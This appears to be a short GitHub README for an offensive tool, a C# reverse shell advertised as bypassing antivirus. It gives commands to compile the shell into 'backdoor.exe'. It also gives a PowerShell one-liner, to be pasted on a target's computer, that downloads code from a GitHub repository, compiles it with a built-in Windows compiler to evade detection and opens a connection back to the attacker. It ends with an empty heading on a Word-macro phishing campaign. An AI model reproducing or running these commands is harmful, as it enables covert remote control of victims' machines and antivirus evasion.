 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe (to make a backdoor in an executable file)
To generate the executable file, compile the script "reverse_shell_to_exe.cs" like that :  
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell (With physical acces to the target's computer)
To get a reverse shell via a command line, copy paste the following payload directly on the target's computer   
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back to your IP)  
  
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full scenario of remote hacking via Macro Word (phishing campaign)




